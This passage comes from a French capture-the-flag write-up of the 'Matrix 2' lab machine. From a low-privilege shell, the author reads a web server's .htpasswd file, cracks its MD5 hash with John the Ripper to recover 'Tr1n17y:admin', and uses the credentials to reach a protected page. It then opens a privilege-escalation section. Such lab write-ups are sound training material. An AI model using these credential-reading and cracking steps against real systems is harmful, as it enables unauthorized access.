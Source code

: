 C'est l'occasion de jeter un oeil au répertoire ```/var/www``` et à son fichier ```.htpasswd```...

```console
$ id
uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)

$ ls -al /var/www
total 48
drwxr-xr-x  4 root root  4096 Dec 14  2018 .
drwxr-xr-x 12 root root  4096 Dec  7  2018 ..
drwxr-xr-x  4 root root  4096 Dec 14  2018 4cc3ss
-rw-r--r--  1 root root 25052 Dec  8  2018 h1dd3n.jpg
-rw-r--r--  1 root root  3594 Dec 14  2018 index.php
drwxr-xr-x  2 root root  4096 Dec  8  2018 p4ss

$ ls -al /var/www/p4ss
total 12
drwxr-xr-x 2 root root 4096 Dec  8  2018 .
drwxr-xr-x 4 root root 4096 Dec 14  2018 ..
-rw-r--r-- 1 root root   46 Dec  8  2018 .htpasswd

$ cat /var/www/p4ss/.htpasswd
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

À toi de jouer, [__John The Ripper__](https://www.openwall.com/john/) !

```console
root@blinils:~# echo "Tr1n17y:\$apr1\$7tu4e5pd\$hwluCxFYqn/IHVFcQ2wER0" > .htpasswd
root@blinils:~# john .htpasswd
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
--snip--
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
admin            (Tr1n17y)
1g 0:00:00:00 DONE 2/3 (2019-06-16 16:06) 7.692g/s 29169p/s 29169c/s 29169C/s nina..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le couple d'identifiants ```Tr1n17y:admin``` permet d'accéder à la page Web protégée (port 1337).

![Affichage de l'image 1337-access-Matrix2.png](images/1337-access-Matrix2.png)

## Stéganographie (partie 2/2) et élévation de privilèges

Les résultats de la phase de reconnaissance s'avèrent bien maigres : aucun autre fichier à l'instar de ```file_view.php``` n'a été trouvé sur l'ensemble des pages Web ; les messages d'accueil et les citations sont les seuls éléments qui diffèrent d'une page à l'autre. Idem sur le serveur, où la seule piste semble être le fichier ```/usr/bin/morpheus```, inexploitable pour l'instant (on y reviendra).
